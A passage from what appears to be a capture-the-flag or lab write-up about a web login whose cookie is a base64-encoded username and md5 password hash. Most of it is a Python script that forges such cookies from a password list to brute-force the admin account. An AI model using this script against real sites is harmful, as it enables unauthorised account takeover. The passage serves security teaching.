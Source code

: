 After a successful login we get a `302` to `index.php` and a cookie that's base64 encoded.

When decoding the cookie we see that it has the username and an md5 hash of the password.

#### Brute force

Since we know the admin is using a password from the list, we can create a script that goes through the passwords in the list -> hash them with md5 -> add the hash to the string `admin:` and base64 encode the string. Then we use that as a cookie for a get request to `index.php`.

```python
import requests
import sys
import hashlib
import base64

def generate_cookie(password):

    pass_hash = hashlib.md5(password.encode("utf-8")).hexdigest()
    creds = "admin:" + pass_hash
    cookie = base64.b64encode(creds.encode("utf-8")).decode("utf-8")
    return cookie

def login(url, pass_file):
    file = open(pass_file, "r")

    for passwords in file.readlines():

        password = passwords.strip("\n")

        cookie = generate_cookie(password)
        cookie_dict = {"PHPSESSID": cookie}

        response = requests.get(url, cookies=cookie_dict)

        if "Welcome admin" in response.text:
            print(f"(+) Password found! ====> {password}")
            sys.exit(1)



def main():
    if len(sys.argv) != 3:
        print(f"(+) Usage: python3 {sys.argv[0]} <IP> <Passwords file>")
        print(f"(+) Example: python {sys.argv[0]} 10.10.10.10 passwords.txt ")
        sys.exit(1)

    print("(+) Starting the attack..")

    ip = sys.argv[1]
    pass_file = sys.argv[2]
    url = "http://" + ip + "/index.php"

    login(url, pass_file)

if __name__ == "__main__":
    main()
```

